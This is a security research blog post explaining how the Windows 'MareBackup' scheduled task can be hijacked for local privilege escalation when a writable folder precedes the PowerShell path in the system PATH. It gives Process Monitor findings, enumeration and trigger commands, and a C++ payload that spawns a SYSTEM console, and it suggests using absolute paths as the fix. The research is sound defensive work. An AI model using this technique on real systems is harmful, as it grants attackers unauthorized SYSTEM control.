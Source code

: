 ```yaml
---
title: "Hijacking the Windows \"MareBackup\" Scheduled Task for Privilege Escalation"
layout: "post"
categories: [ "Privilege Escalation" ]
tags: [ "Exploit", "Privilege Escalation" ]
---
```


The built-in "MareBackup" scheduled task is susceptible to a trivial executable search order hijacking, which can be abused by a low-privileged user to gain `SYSTEM` privileges whenever a vulnerable folder is prepended to the system's `PATH` environment variable (instead of being appended).

As I was working on a semi-automated research project on an unrelated subject, I generated and collected a lot of data with Process Monitor. So, I decided to have a quick look and applied the basic search filters for DLL search order hijacking, just to see if something would come out, even if it was not my initial objective. This is how I observed the following behavior.

![Process Monitor showing the execution of PowerShell by `CompatTelRunner.exe`](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-powershell-search-order.png)
*Process Monitor showing the execution of PowerShell by `CompatTelRunner.exe`*

We have an executable named `CompatTelRunner.exe`, running as `NT AUTHORITY\SYSTEM`, and executing PowerShell, apparently without specifying its absolute path because we can see that it uses the typical executable search order documented [here](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw).

The Python `PATH` entries are highlighted here because Python was known in the past for inserting folders configured with (default) weak permissions in the system's `PATH` environment variable. This issue has since been addressed in the Python installer, and therefore this behavior wouldn't be exploitable here.

Besides, contrary to a typical Ghost DLL hijacking, where `LoadLibrary` would go through all the `PATH` entries because the target file doesn't exist, here the hijacking would work only if a vulnerable entry was prepended to the list, instead of being appended, because the legitimate `powershell.exe` would be found eventually.

![Hypothetical PowerShell search order hijacking](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/diagram-powershell-hijacking.png)
*Hypothetical PowerShell search order hijacking*

Now, assuming that such a vulnerable folder exists, is this behavior really exploitable, and can we trigger it as a low-privileged user? You guessed it, the answer to both of these questions is "*yes*". Let me walk you through a quick analysis.

In total, Process Monitor recorded 13 "Process Create" events for `powershell.exe`. They are all similar so the one shown below was just picked at random. The "Event" tab shows the following command line being executed. Nothing really interesting there.

```powershell
powershell.exe -ExecutionPolicy Restricted -Command Write-Host 'Final result: 1';
```

![Process Monitor - PowerShell process create event details](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-event.png)
*Process Monitor - PowerShell process create event details*

The "Process" tab shows the following command line for the parent process. It also confirms that it runs as `NT AUTHORITY\SYSTEM` in session `0`. So, we are sure there is no user impersonation involved here.

```batch
"C:\WINDOWS\system32\compattelrunner.exe" -m:appraiser.dll -f:DoScheduledTelemetryRun
```

![Process Monitor - Parent process details](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-process-details.png)
*Process Monitor - Parent process details*

The "Stack" tab shows that the `CreateProcessW` call originated from a function named `PowerShellMatchingPlugin` in `acmigration.dll`.

![Process Monitor - Stack trace leading to the `CreateProcessW` call](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-stack.png)
*Process Monitor - Stack trace leading to the `CreateProcessW` call*

Now, there is a bit of information I already knew, but it was also possible to make an educated guess. The keywords `appraiser` and `ScheduledTelemetry` put me on the right track immediately. I've seen the first one on multiple occasions in a few built-in scheduled tasks, and the second one kind of hints in that direction as well.

We can use PowerShell to quickly enumerate all the scheduled tasks and find the ones with a "command line" action containing the keyword `DoScheduledTelemetryRun`. As a side note, this enumeration should be done as an administrator to ensure that all registered tasks are checked, not just the ones visible to low-privileged users.

```console
PS C:\WINDOWS\system32> Get-ScheduledTask | ? { $_.Actions.Arguments -like "*DoScheduledTelemetryRun*" } | select TaskPath,TaskName,Description,State | fl

TaskPath    : \Microsoft\Windows\Application Experience\
TaskName    : MareBackup
Description : Gathers Win32 application data for App Backup scenario
State       : Ready

TaskPath    : \Microsoft\Windows\Application Experience\
TaskName    : Microsoft Compatibility Appraiser Exp
Description : Collects program telemetry information if opted-in to the Microsoft Customer Experience Improvement Program.
State       : Ready
```

The result shows two candidate scheduled tasks, `MareBackup` and `Microsoft Compatibility Appraiser Exp`, which are both registered under "Application Experience".

![Task Scheduler - Application Experience scheduled tasks](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/task-scheduler-candidate-tasks.png)
*Task Scheduler - Application Experience scheduled tasks*

At this point, we have all the information we need, but just out of curiosity, I opened the file `acmigration.dll`, from which the `CreateProcessW` originates, in Ghidra, to take a look at the `PowerShellMatchingPlugin` function. Unfortunately, Ghidra was not able to reconstruct the initialization of the command line, so I'll just highlight the `CreateProcessW` API call. Apart from the fact that it specifies the creation flag `CREATE_NO_WINDOW`, there is nothing special here either.

![Ghidra - `CreateProcessW` being called from `acmigration!PowerShellMatchingPlugin`](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/ghidra-powershellmatchingplugin.png)
*Ghidra - `CreateProcessW` being called from `acmigration!PowerShellMatchingPlugin`*

The last question is "*can we trigger or start at least one of these two scheduled tasks as a low-privileged user?*". The first one doesn't have any trigger registered, and the second one only has one custom trigger. This is not encouraging, but we can try to start them manually using either `schtasks.exe` or the PowerShell cmdlet `Start-ScheduledTask`.

![PowerShell - Attempting to start the two candidate scheduled tasks](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/powershell-start-scheduled-tasks.png)
*PowerShell - Attempting to start the two candidate scheduled tasks*

We get an "access denied" error when attempting to start `Microsoft Compatibility Appraiser Exp`, but the other one seems to work. To understand why that is, we should take a look at their DACLs, but there is no easy way to do that within the Task Scheduler GUI. However, since I implemented DACL checks for scheduled tasks in [PrivescCheck](https://github.com/itm4n/PrivescCheck), I can use that to my advantage.

![PowerShell - "MareBackup" scheduled task permission check](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/powershell-scheduled-task-permissions.png)
*PowerShell - "MareBackup" scheduled task permission check*

Note that there is actually an easier way to achieve the same result. We can check the DACL of the XML file containing the scheduled task's definition.

!["MareBackup" scheduled task permission check with icacls](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/cmd-icacls-scheduled-task-file.png)
*"MareBackup" scheduled task permission check with icacls*

Whichever method is used, we can see that the `BUILTIN\Users` identity has `AllAccess`, or `FullControl`, over the scheduled task. "*So, that means I can modify the scheduled task as a low-privileged user and achieve LPE? That's an 0-day!*"

The result of the `icacls` command shows that we have full control over the scheduled task file, but that doesn't serve any purpose since there is a checksum stored in the registry, and an integrity check is performed by the `Schedule` service when the tasks are loaded. Theoretically, the only way to modify a scheduled task is through the `Schedule` service using RPC, and all the procedures verify that the client has administrator privileges. The only exception that I'm aware of is the one used for enabling / disabling tasks.

So, no actual vulnerability here, but this does explain why we can start the scheduled task manually without administrator privileges.

One question remains, what about the payload? Well, we don't really care about preserving the original feature. It's just a scheduled task for collecting telemetry data after all, it's not system-critical, so we can execute whatever we want without having to ensure that the PowerShell commands are actually executed. In addition, the `Schedule` service will use the default `SYSTEM` token, which has `SeTcbPrivilege` enabled. Therefore, I opted for my personal favorite: spawning a `SYSTEM` console on the user's desktop (original code [here](https://googleprojectzero.blogspot.com/2016/01/raising-dead.html)).

```cpp
HANDLE hToken = NULL, hTokenDup = NULL;
STARTUPINFO si = { 0 };
PROCESS_INFORMATION pi = { 0 };
LPCWSTR pwszApplication = L"cmd.exe";
DWORD dwSessionId = 1; // Set to the target user's session ID
                       // (or invoke WTSGetActiveConsoleSessionId() to get the console session ID)

// Error checks were removed for conciseness
OpenProcessToken(GetCurrentProcess(), MAXIMUM_ALLOWED, &hToken);
DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityAnonymous, TokenPrimary, &hTokenDup);
SetTokenInformation(hTokenDup, TokenSessionId, &dwSessionId, sizeof(dwSessionId));

si.cb = sizeof(si);
si.wShowWindow = SW_SHOW;
si.lpDesktop = const_cast<wchar_t*>(L"WinSta0\\Default");

CreateProcessAsUserW(hTokenDup, pwszApplication, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
CloseHandle(hTokenDup);
CloseHandle(hToken);
```

Finally, below is a list of all the commands you'll need to check for and exploit this "*vulnerability*". The only thing to pay attention to is whether a `PATH` folder entry with weak permissions is placed before the default Windows PowerShell folder path.

```powershell
# Check the system PATH
Get-ItemProperty -Path "Registry::HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -Name "Path" | Select-Object -ExpandProperty Path
# Check whether the scheduled task exists and is enabled
Get-ScheduledTask -TaskName "MareBackup"
# Enable the scheduled task if needed
Enable-ScheduledTask -TaskPath "\Microsoft\Windows\Application Experience" -TaskName "MareBackup"
# Start the scheduled task
Start-ScheduledTask -TaskPath "\Microsoft\Windows\Application Experience" -TaskName "MareBackup"
```

> In the video below, the user is named "Admin", and is indeed a member of the local "Administrators" group, but everything is done under "medium" integrity since User Account Control (UAC) is enabled, so the PowerShell process doesn't have administrator privileges.
{: .prompt-info}

{% include embed/video.html src='/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/poc.webm' title='Exploitation of the PrintNightmare vulnerability' muted=true %}

The term "*vulnerability*" is obviously not appropriate here because the actual vulnerability lies in the fact that a folder with weak permissions was inserted in the system's `PATH` environment variable. Nonetheless, it is possible to avoid such a behavior by constructing the absolute path of `powershell.exe` before calling `CreateProcess`, rather than relying on a potentially hijackable search order.

That's all for this post, it was a rather short one for once. Back to my main project now... :wink:
